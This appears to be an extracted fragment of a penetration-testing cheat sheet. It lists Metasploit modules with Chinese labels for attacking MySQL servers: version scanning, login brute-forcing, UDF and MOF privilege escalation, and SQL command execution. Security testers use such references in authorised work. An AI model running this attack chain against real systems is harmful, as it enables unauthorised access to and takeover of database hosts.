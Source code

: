	>use auxiliary/scanner/mysql/mysql_version 主机发现
	>use auxiliary/scanner/mysql/mysql_login MYSQL爆破
	>use exploit/multi/mysql/mysql_udf_payload UDF提权
	>use exploit/windows/mysql/mysql_mof MOF提权
	>use auxiliary/admin/mysql/mysql_sql 执行命令
